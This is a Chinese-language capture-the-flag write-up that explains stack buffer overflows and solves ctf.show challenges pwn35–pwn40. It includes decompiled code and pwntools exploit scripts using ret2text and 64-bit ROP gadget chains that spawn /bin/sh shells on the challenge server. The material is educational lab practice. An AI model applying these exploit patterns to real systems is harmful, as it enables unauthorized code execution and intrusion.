栈溢出
介绍
栈溢出指的是程序向栈中某个变量中写入的字节数超过了这个变量本身所申请的字节数，因而导致与其相邻的栈中的变量的值被改变。这种问题是一种特定的缓冲区溢出漏洞，类似的还有堆溢出，bss 段溢出等溢出方式。栈溢出漏洞轻则可以使程序崩溃，重则可以使攻击者控制程序执行流程。此外，我们也不难发现，发生栈溢出的基本前提是：
- 程序必须向栈上写入数据。
- 写入的数据大小没有被良好地控制。
一般步骤
寻找危险函数
通过寻找危险函数，我们快速确定程序是否可能有栈溢出，以及有的话，栈溢出的位置在哪里。常见的危险函数如下
- 输入
- gets，直接读取一行，忽略’\x00’
- scanf
- vscanf
- 输出
- sprintf
- 字符串
- strcpy，字符串复制，遇到’\x00’停止
- strcat，字符串拼接，遇到’\x00’停止
- bcopy
确定填充长度
这一部分主要是计算我们所要操作的地址与我们所要覆盖的地址的距离。常见的操作方法就是打开 IDA，根据其给定的地址计算偏移。一般变量会有以下几种索引模式
- 相对于栈基地址的的索引，可以直接通过查看 EBP 相对偏移获得
- 相对应栈顶指针的索引，一般需要进行调试，之后还是会转换到第一种类型。
- 直接地址索引，就相当于直接给定了地址。
一般来说，我们会有如下的覆盖需求
- 覆盖函数返回地址，这时候就是直接看 EBP 即可。
- 覆盖栈上某个变量的内容，这时候就需要更加精细的计算了。
- 覆盖 bss 段某个变量的内容。
- 根据现实执行情况，覆盖特定的变量或地址的内容。
之所以我们想要覆盖某个地址，是因为我们想通过覆盖地址的方法来直接或者间接地控制程序执行流程。
pwn35-80
pwn35(dest strcpy)

32位 部分开启RELRO保护 关闭了栈保护与PIE
int __cdecl main(int argc, const char **argv, const char **envp)
{
FILE *stream; // [esp+0h] [ebp-1Ch]
stream = fopen("/ctfshow_flag", (const char *)&unk_80488D4);
if ( !stream )
{
puts("/ctfshow_flag: No such file or directory.");
exit(0);
}
fgets(flag, 64, stream);
signal(11, (__sighandler_t)sigsegv_handler);
puts((const char *)&unk_8048910);
puts((const char *)&unk_8048984);
puts((const char *)&unk_8048A00);
puts((const char *)&unk_8048A8C);
puts((const char *)&unk_8048B1C);
puts((const char *)&unk_8048BA0);
puts((const char *)&unk_8048C34);
puts(" * ************************************* ");
puts((const char *)&unk_8048CF8);
puts(" * Type : Stack_Overflow ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : See what the program does! ");
puts(" * ************************************* ");
puts("Where is flag?\n");
if ( argc <= 1 )
{
puts("Try again!");
}
else
{
ctfshow((char *)argv[1]);
printf("QaQ!FLAG IS NOT HERE! Here is your input : %s", argv[1]);
}
return 0;
}char *__cdecl ctfshow(char *src)
{
char dest; // [esp+Ch] [ebp-6Ch]
return strcpy(&dest, src);
}程序首先将/ctfshow_flag文件内容读入变量flag中 然后判断argc参数
argc是我们启动函数时输入的参数的数量加1，因为程序默认有argc=1，且第一个参数为程序的名称即argv[0]，此后我们输入的参数就为argv[1]
如果argc>2 就进入ctfshow()把argv[1]的值赋给dest然后返回指向dest的指针并输出
Payload:
./pwnme aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaapwn36(ret2fun)

32位保护仅部分开启RELRO，同时注意到有可读可写可执行的段
int __cdecl main(int argc, const char **argv, const char **envp)
{
setvbuf(stdout, 0, 2, 0);
puts((const char *)&unk_804883C);
puts((const char *)&unk_80488B0);
puts((const char *)&unk_804892C);
puts((const char *)&unk_80489B8);
puts((const char *)&unk_8048A48);
puts((const char *)&unk_8048ACC);
puts((const char *)&unk_8048B60);
puts(" * ************************************* ");
puts((const char *)&unk_8048C24);
puts(" * Type : Stack_Overflow ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : There are backdoor functions here! ");
puts(" * ************************************* ");
puts("Find and use it!");
puts("Enter what you want: ");
ctfshow(&argc);
return 0;
}char *ctfshow()
{
char s; // [esp+0h] [ebp-28h]
return gets(&s);
}int get_flag()
{
char s; // [esp+Ch] [ebp-4Ch]
FILE *stream; // [esp+4Ch] [ebp-Ch]
stream = fopen("/ctfshow_flag", (const char *)&unk_8048800);
if ( !stream )
{
puts("/ctfshow_flag: No such file or directory.");
exit(0);
}
fgets(&s, 64, stream);
return printf(&s);
}使用 gets 函数从标准输入读取一行字符串，并将其存储在 s 数组中。然后，返回指向 s 的指针。 gets 函数是非常不安全的，容易导致缓冲区溢出漏洞。因为它无法限制输入的长度，可能会超出s 数组的容量，导致覆盖栈上的其他数据或执行任意代码。这也是明显的栈溢出漏洞，s距ebp仅有0x28，而gets不限制输入长度
因此我们只需要利用栈溢出漏洞覆盖返回地址，将程序的执行流程转向 get_flag 函数，从而获取flag。
text:08048586 public get_flag # get_flag地址
Exp:
from pwn import *
io = remote("pwn.challenge.ctf.show", 28110)
# io = process('./../Challenge/ctfshow_pwn/pwn36')
get_flag_add = 0x08048586
s_offset = 0x28+0x4
payload = cyclic(s_offset)+p32(get_flag_add)
io.sendlineafter("want:", payload)
io.interactive()pwn37(ret2text)

32位程序，关闭了栈保护与PIE
int __cdecl main(int argc, const char **argv, const char **envp)
{
init(&argc);
logo();
puts("Just very easy ret2text&&32bit");
ctfshow();
puts("\nExit");
return 0;
}ssize_t ctfshow()
{
char buf; // [esp+6h] [ebp-12h]
return read(0, &buf, 0x32u);
}首先声明了一个名为 buf 的字符数组，大小为14字节它距离ebp的距离为0x12，这里通过read函数buf能读入0x32 ，转换为10进制就是50个字节的数据，因此这里很明显就存在栈溢出了，在找到漏洞点后，很明显看到左边有一个backdoor函数，跟进查看：
int backdoor()
{
system("/bin/sh");
return 0;
}
Exp:
from pwn import *
context.log_level = 'debug'
# io = process("/home/hsad/CTF/Challenge/ctfshow_pwn/pwn37")
io = remote("pwn.challenge.ctf.show", 28159)
elf = ELF("/home/hsad/CTF/Challenge/ctfshow_pwn/pwn37")
bin_sh = elf.sym['backdoor']
# print(hex(bin_sh))
# bin_sh = 0x08048521
buf_offset = 0x12+0x4
payload = cyclic(buf_offset)+p32(bin_sh)
io.sendlineafter("bit", payload)
io.interactive()pwn38(堆栈平衡)

64位 部分Relro保护
int __cdecl main(int argc, const char **argv, const char **envp)
{
setvbuf(stdout, 0LL, 2, 0LL);
setvbuf(stdin, 0LL, 2, 0LL);
puts(s);
puts(asc_400890);
puts(asc_400910);
puts(asc_4009A0);
puts(asc_400A30);
puts(asc_400AB8);
puts(asc_400B50);
puts(" * ************************************* ");
puts(aClassifyCtfsho);
puts(" * Type : Stack_Overflow ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : It has system and '/bin/sh'.There is a backdoor function");
puts(" * ************************************* ");
puts("Just easy ret2text&&64bit");
ctfshow("Just easy ret2text&&64bit", 0LL);
puts("\nExit");
return 0;
}
也有后门 不过这次是64位程序 这里考到了栈帧平衡
关于ubuntu18版本以上调用64位程序中的system函数的栈对齐问题
关于pwn64位amd构造payload时的堆栈平衡问题以及32位与64位构造payload的区别与注意事项

Exp:
from pwn import *
io = remote("pwn.challenge.ctf.show", 28312)
elf = ELF("/home/hsad/CTF/Challenge/ctfshow_pwn/pwn38")
buf_offset = 0xA+0x8
bin_sh = 0x0400657
ret = 0x040066D
lea = 0x040065B
# payload = cyclic(buf_offset)+p64(ret)+p64(bin_sh)
payload = cyclic(buf_offset)+p64(lea)+p64(bin_sh)
io.sendlineafter("bit", payload)
io.interactive()pwn39

32位程序，关闭了栈保护与PIE
int __cdecl main(int argc, const char **argv, const char **envp)
{
setvbuf(stdout, 0, 2, 0);
setvbuf(stdin, 0, 2, 0);
puts((const char *)&unk_804876C);
puts((const char *)&unk_80487E0);
puts((const char *)&unk_804885C);
puts((const char *)&unk_80488E8);
puts((const char *)&unk_8048978);
puts((const char *)&unk_80489FC);
puts((const char *)&unk_8048A90);
puts(" * ************************************* ");
puts((const char *)&unk_8048B54);
puts(" * Type : Stack_Overflow ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : It has system and '/bin/sh',but they don't work together");
puts(" * ************************************* ");
puts("Just easy ret2text&&32bit");
ctfshow(&argc);
puts("\nExit");
return 0;
}# ctfshow()
ssize_t ctfshow()
{
char buf; // [esp+6h] [ebp-12h]
return read(0, &buf, 0x32u);
}#hint
int hint()
{
puts("/bin/sh");
return system("echo 'You find me?'");
}直接利用给出的/bin/sh传参就行
可以用ida直接看地址 也可以利用gdb和objdump得到（objdump -d -j .plt pwn


Exp:
from pwn import *
io = remote("pwn.challenge.ctf.show", 28173)
elf = ELF("/home/hsad/CTF/Challenge/ctfshow_pwn/pwn39")
buf_offset = 0x12+0x4
# system = elf.sym['system']
system = 0x080483A0
bin_sh = 0x08048750
payload = cyclic(buf_offset)+p32(system)+cyclic(0x4)+p32(bin_sh)
io.sendlineafter("bit", payload)
io.interactive()pwn40

64位 部分Relro保护
int __cdecl main(int argc, const char **argv, const char **envp)
{
setvbuf(stdout, 0LL, 2, 0LL);
setvbuf(stdin, 0LL, 2, 0LL);
puts(asc_400828);
puts(asc_4008A0);
puts(asc_400920);
puts(asc_4009B0);
puts(asc_400A40);
puts(asc_400AC8);
puts(asc_400B60);
puts(" * ************************************* ");
puts(aClassifyCtfsho);
puts(" * Type : Stack_Overflow ");
puts(" * Site : https://ctf.show/ ");
puts(" * Hint : It has system and '/bin/sh',but they don't work together");
puts(" * ************************************* ");
puts("Just easy ret2text&&64bit");
ctfshow("Just easy ret2text&&64bit", 0LL);
puts("\nExit");
return 0;
}跟上一题一样 不过是64
64位和32位不同，参数不是直接放在栈上，而是优先放在寄存器rdi,rsi,rdx,rcx,r8,r9。这几个寄存器放不下时才会考虑栈。
具体64位传参方式如下：
当参数少于7个时， 参数从左到右放⼊寄存器: rdi, rsi, rdx, rcx, r8, r9。
当参数为7个以上时， 前 6 个与前⾯⼀样， 但后⾯的依次从 “右向左” 放⼊栈中，和32位汇编⼀样。
寻找pop rdi;ret
❯ ROPgadget --binary pwn40 --only "pop|ret"
Gadgets information
============================================================
0x00000000004007dc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007de : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007e0 : pop r14 ; pop r15 ; ret
0x00000000004007e2 : pop r15 ; ret
0x00000000004007db : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007df : pop rbp ; pop r14 ; pop r15 ; ret
0x00000000004005b8 : pop rbp ; ret
0x00000000004007e3 : pop rdi ; ret
0x00000000004007e1 : pop rsi ; pop r15 ; ret
0x00000000004007dd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004fe : ret
0x000000000040069a : ret 0x2019
Unique gadgets found: 12payload = cyclic(buf_offset)+p64(pop_rdi)+p64(bin_sh)+p64(ret)+p64(system)对每个部分进行逐步解释：
cyclic(buf_offset) : 填充缓冲区，达到溢出栈帧的目的。
p64(pop_rdi) : 这部分使用 p64 函数将 pop_rdi 的地址转换为一个8字节的字符串。pop_rdi 指令用于将值从栈上弹出并存储到寄存器rdi中。在这个payload中，它用于准备传递给 system 函数的第一个参数。
p64(bin_sh) : 这部分使用 p64 函数将 bin_sh 的地址转换为一个8字节的字符串。 bin_sh 通常是指向包含要执行的命令的字符串（如 /bin/sh ）的指针。该字符串将作为 system 函数的第一个参数。
p64(ret) : 这部分使用 p64 函数将 ret 的地址转换为一个8字节的字符串。 ret 是一个返回指令，用于将程序控制权返回到栈上保存的地址。在这个payload中，它被用作一个间接跳转指令，用于绕过栈中的返回地址，以达到执行 system 函数的目的。
p64(system) : 这部分使用 p64 函数将 system 的函数地址转换为一个8字节的字符串。system 是一个函数指针，指向一个可以执行系统命令的函数。
最终我们的目的就是通过栈溢出修改返回地址，以控制程序执行流程。它通过调用 pop_rdi 指令将bin_sh 的地址加载到寄存器rdi中，然后通过 ret 指令进行间接跳转，最终调用 system 函数，以执行system(“/bin/sh”)进而获得一个我们想要的shell。
Exp:
from pwn import *
io = remote("pwn.challenge.ctf.show", 28106)
elf = ELF("/home/hsad/CTF/Challenge/ctfshow_pwn/pwn40")
buf_offset = 0xA+0x8
system = 0x0400520
bin_sh = 0x0400808
pop_rdi = 0x04007e3
ret = 0x0400674
payload = cyclic(buf_offset)+p64(pop_rdi)+p64(bin_sh)+p64(ret)+p64(system)
io.sendlineafter("bit", payload)
io.interactive()